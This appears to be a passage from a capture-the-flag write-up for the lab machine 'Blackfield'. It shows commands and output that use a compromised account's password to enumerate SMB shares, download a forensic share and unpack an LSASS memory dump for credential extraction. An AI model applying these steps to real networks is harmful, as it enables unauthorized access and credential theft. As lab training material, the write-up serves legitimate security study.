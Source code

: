 ```bash
smbmap -u audit2020 -p 'password1234!' -H ${TARGET}
```

```text
[+] IP: 10.10.10.192:445	Name: 10.10.10.192        	Status: Authenticated
    Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	C$                                                	NO ACCESS	Default share
	forensic                                          	READ ONLY	Forensic / Audit share.
	IPC$                                              	READ ONLY	Remote IPC
	NETLOGON                                          	READ ONLY	Logon server share 
	profiles$                                         	READ ONLY	
	SYSVOL                                            	READ ONLY	Logon server share 
```

The share "forensic" is now accessible with this user, in read only :

```bash
smbmap -u audit2020 -p 'password1234!' -H ${TARGET} -r forensic
```

```text
[+] IP: 10.10.10.192:445        Name: 10.10.10.192
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        forensic                                                READ ONLY
        .\forensic\*
        dr--r--r--                0 Sun Feb 23 16:10:16 2020    .
        dr--r--r--                0 Sun Feb 23 16:10:16 2020    ..
        dr--r--r--                0 Sun Feb 23 19:14:37 2020    commands_output
        dr--r--r--                0 Thu May 28 22:29:24 2020    memory_analysis
        dr--r--r--                0 Fri Feb 28 23:30:34 2020    tools
```

So browse and download files for analysis :

```bash
smbclient //${TARGET}/forensic -U blackfield.local/audit2020
```

```text
smb: \> recurse
smb: \> mget commands_output
smb: \> mget memory_analysis
```

### lateral movement to user svc_backup, access target

Uncompress the archive file, and verify what is the extracted file:

```bash
unzip lsass.zip                                 
file lsass.DMP
```

```text
lsass.DMP: Mini DuMP crash report, 16 streams, Sun Feb 23 18:02:01 2020, 0x421826 type
```
